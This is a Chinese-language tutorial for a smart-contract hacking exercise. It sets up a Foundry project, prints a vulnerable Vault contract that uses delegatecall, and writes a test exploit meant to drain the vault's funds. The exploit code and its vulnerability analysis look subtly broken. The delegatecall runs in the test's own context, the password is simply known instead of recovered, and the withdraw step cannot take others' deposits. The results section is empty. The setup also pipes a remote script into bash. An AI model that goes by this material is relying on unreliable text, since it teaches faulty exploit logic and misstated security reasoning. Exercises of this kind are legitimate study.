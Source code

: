 阅读代码  `Vault.sol` 及测试用例，在测试用例中 `testExploit` 函数添加一些代码，设法取出预先部署的 Vault 合约内的所有资金。

我们需要设置一个 Foundry 项目，编写合约代码，编写测试用例，并运行测试。以下是详细的步骤和代码示例。

### 设置 Foundry 项目

首先，确保你已安装 Foundry。如果没有安装，可以通过以下命令安装：

```
curl -L https://foundry.paradigm.xyz | bash
foundryup
```

安装完成后，创建一个新的 Foundry 项目：

```
forge init hack_Vault
cd hack_Vault
forge install OpenZeppelin/openzeppelin-contracts
```

**生成 `remappings.txt`：**

在项目根目录下运行以下命令：

```
forge remappings > remappings.txt
```

这将生成一个 `remappings.txt` 文件，并将当前依赖项的映射信息写入其中。打开生成的 `remappings.txt`，写入以下的内容：

```
@openzeppelin/=lib/openzeppelin-contracts/
```

- `@openzeppelin/` 是 Solidity 中 `import` 的路径前缀。
- `lib/openzeppelin-contracts/` 是 OpenZeppelin 库在本地文件系统中的相对路径。

在src中新建一个文件Vault.sol

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VaultLogic {
  //记录合约的拥有者（即合约部署者）
  address public owner;
  //私有变量，用于验证修改拥有者的权限。
  bytes32 private password;
  //在合约部署时设置 owner 为部署者，password 为传入的密码
  constructor(bytes32 _password) public {
    owner = msg.sender;
    password = _password;
  }
  //允许当前拥有者通过提供正确的密码来修改合约的拥有者
  function changeOwner(bytes32 _password, address newOwner) public {
    if (password == _password) {
        owner = newOwner;
    } else {
      revert("password error");
    }
  }
}

contract Vault {
	//记录合约的拥有者（即合约部署者）
  address public owner;
  //是一个 VaultLogic 合约的实例，使用其地址初始化
  VaultLogic logic;
  //一个映射，用于记录每个地址存储的资金数量
  mapping (address => uint) deposites;
  //一个布尔变量，指示是否可以进行提款
  bool public canWithdraw = false;
 //合约在部署时初始化 logic 合约，并将部署者设为合约拥有者
  constructor(address _logicAddress) public {
    logic = VaultLogic(_logicAddress);
    owner = msg.sender;
  }

  //函数是一个后备函数，当没有匹配函数被调用时触发。这里，它使用 delegatecall 调用 VaultLogic 合约的逻辑
  fallback() external {
    (bool result,) = address(logic).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
  //用于接收以太坊转账
  receive() external payable {

  }
  //允许用户通过调用此函数向合约存入资金，金额将记录在 deposites 映射中
  function deposite() public payable { 
    deposites[msg.sender] += msg.value;
  }
  //检查合约的余额是否为零，返回 true 则表示没有余额
  function isSolve() external view returns (bool){
    if (address(this).balance == 0) {
      return true;
    } 
  }
  //允许合约拥有者开启提款功能
  function openWithdraw() external {
    if (owner == msg.sender) {
      canWithdraw = true;
    } else {
      revert("not owner");
    }
  }
  //允许用户在 canWithdraw 变量为 true 的情况下提款。提款成功后，将用户的存款重置为零
  function withdraw() public {

    if(canWithdraw && deposites[msg.sender] >= 0) {
      (bool result,) = msg.sender.call{value: deposites[msg.sender]}("");
      if(result) {
        deposites[msg.sender] = 0;
      }
      
    }

  }

}
```

测试用例中添加代码以提取 `Vault` 合约中的所有资金，我们需要分析合约的漏洞并利用它。根据提供的 `Vault` 和 `VaultLogic` 合约代码，漏洞主要体现在以下几个方面：

1. **权限检查不足**: `Vault` 合约中的 `withdraw` 方法在 `canWithdraw` 为 `true` 时允许任何人提取资金，而不仅限于存款人。这意味着，如果我们可以将 `canWithdraw` 设置为 `true`，任何人都可以提取所有资金。

2. **`delegatecall` 的使用**: `Vault` 合约使用 `delegatecall` 调用 `VaultLogic` 合约的逻辑。这意味着，如果我们可以通过 `delegatecall` 发送恶意数据，我们可以在 `Vault` 合约的上下文中执行任意代码。

   新建一个测试文件test/Vault.t.sol

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Vault.sol";




contract VaultExploiter is Test {
    Vault public vault;
    VaultLogic public logic;

    address owner = address (1);
    address palyer = address (2);

    function setUp() public {
        vm.deal(owner, 1 ether);

        vm.startPrank(owner);
        logic = new VaultLogic(bytes32("0x1234"));
        vault = new Vault(address(logic));

        vault.deposite{value: 0.1 ether}();
        vm.stopPrank();

    }

    function testExploit() public {
        vm.deal(palyer, 1 ether);
        vm.startPrank(palyer);

        // 利用 delegatecall 直接调用 VaultLogic 合约的 changeOwner 函数
        bytes32 correctPassword = bytes32("0x1234");
        address palyerAddress = palyer;
        bytes memory data = abi.encodeWithSignature("changeOwner(bytes32,address)", correctPassword, palyerAddress);

        (bool success, ) = address(vault).delegatecall(data);
        require(success, "changeOwner failed");

        // 现在攻击者是 owner，可以调用 openWithdraw 方法
        vault.openWithdraw();

        // 提取所有资金
        vault.withdraw();

        require(vault.isSolve(), "solved");
        vm.stopPrank();
    }


}
```

运行测试命令forge test

测试结果：

